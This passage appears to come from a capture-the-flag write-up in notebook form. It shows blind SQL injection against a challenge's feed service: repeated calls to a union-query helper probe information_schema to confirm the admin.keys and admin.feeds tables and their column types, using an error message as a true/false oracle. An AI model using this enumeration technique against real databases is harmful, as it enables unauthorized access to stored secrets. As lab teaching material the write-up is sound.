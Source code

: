 


    (True, 'Feed with same title already exists!', <Response [500]>)



So now we know that we have a table `admin.keys` with an interesting column `key`. The flag probably is in there, seeing as it was the main redacted data on the challenge site.

We can also find out more about other columns in the database, but this won't be as necessary for the rest of the challenge.


```python
# "admin.keys" contains "name" that is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'name' AND data_type LIKE 'VARCHAR'"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# "admin.feeds" table exists
# "admin.feeds" contains "title" that is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'feeds' AND table_schema LIKE 'admin' AND column_name LIKE 'title' AND data_type LIKE 'VARCHAR'"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# "admin.feeds" contains "description" that is type TEXT
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'feeds' AND table_schema LIKE 'admin' AND column_name LIKE 'description' AND data_type LIKE 'TEXT'"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)



## Blind SQL Data Leaking
